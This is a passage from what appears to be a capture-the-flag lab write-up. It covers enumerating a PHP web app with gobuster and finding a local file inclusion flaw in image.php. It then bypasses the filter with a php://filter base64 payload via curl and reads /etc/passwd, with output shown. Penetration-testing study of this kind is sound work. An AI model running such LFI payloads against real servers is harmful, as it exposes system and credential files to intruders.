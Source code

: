 ```
===============================================================
2023/05/11 01:43:13 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/index.php            (Status: 302) [Size: 0] [--> ./login.php]
/images               (Status: 301) [Size: 315] [--> http://10.129.71.202/images/]
/login.php            (Status: 200) [Size: 5609]
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]
/image.php            (Status: 200) [Size: 0]
/header.php           (Status: 302) [Size: 0] [--> ./login.php]
```

There's an `image.php` file that we can access, but the Size being 0 means nothing is loaded. When we view the page source, we can see that there are some images loaded:

&#x20;

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Why would there be an `image.php` file when the images are static on the page itself? When testing, I fuzzed a few parameters, and found that `?img` was the right parameter to use:

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to LFI, but when trying to read it we get blocked:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Since this is PHP based, we can try to bypass this using the `php://filter` wrapper, and it works.

```
$ curl http://10.129.71.202/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2152  100  2152    0     0   112k      0 --:--:-- --:--:-- --:--:--  116k
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
<TRUNCATED>
```
